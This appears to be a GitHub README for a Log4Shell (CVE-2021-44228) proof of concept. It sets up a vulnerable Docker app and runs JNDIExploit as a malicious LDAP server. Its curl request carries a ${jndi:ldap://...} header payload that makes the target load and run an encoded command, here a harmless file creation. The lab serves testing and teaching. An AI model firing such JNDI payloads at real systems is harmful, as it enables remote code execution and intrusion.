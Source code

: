 # CVE-2021-44228 (Log4shell)

Proof of concept (PoC) for the CVE-2021-44228 vulnerability affecting Apache Log4j2. It allows for remote code execution (RCE) on affected systems. 

# Description

Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

For more information:

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228)

# Requirements

- Docker image (log4j2-vuln:v1.1)
- JNDIExploit v1.2
- Curl

# Build the Docker image by yourself

In the directory where the Dockerfile is located, the following command must be run to create the Docker image:

<b>Note:</b> The file "Log4j2Vuln-1.1-SNAPSHOT.jar" must be in the same directory.

`docker build -t log4j2-vuln:v1.1 .`

# Run Docker image

You can download and run the Docker image from DockerHub, as follows:

`docker run --name log4j2-vuln -p 8080:8080 d0ck3rt3k1umhub/log4j2-vuln:v1.1`

When the image is created using the Dockerfile, it should be run as follows:

`docker run --name log4j2-vuln -p 8080:8080  log4j2-vuln:v1.1`

# Exploitation Steps

- As a first step, the Docker image of the vulnerable application must be executed.
- Then, you must unzip the zip file "JNDIExploit.v1.2.zip":

`unzip JNDIExploit.v1.2.zip`

- Execute the exploit that allows creating a malicious LDAP.

```
usage: java -jar JNDIExploit-1.2-SNAPSHOT.jar [-i] [-p]

arguments:
  -i      Private IP Address to use for the LDAP server
  -p      Port to use for the LDAP server (For example, 8888)
```

- Launch the malicious request using the Curl tool. The malicious payload is encoded in base64 (this can be changed).

<b>Note:</b> In this example, the payload contains the following command `touch /tmp/tekium_prueba.txt`, which will create a file named "tekium_prueba.txt" in the "/tmp" directory.

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZWtpdW1fcHJ1ZWJhLnR4dA==}'`

- Both the vulnerable application and the exploit will show in the output that the exploitation was successful.

- To confirm that the exploit was successful, you can list the contents of the "/tmp" directory in the Docker image. To do this, use the following command:

`docker exec log4j2-vuln ls /tmp`

- It can be seen that the file "tekium_prueba.txt" was created in the directory, confirming that the vulnerability was successfully exploited.

# Credits

This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.

# Disclaimer

This project is intended for educational purposes and testing ethical hacking (always do so with prior authorization or in your own controlled testing environment). The author is not responsible for any malicious use or damage caused. Use at your own risk.
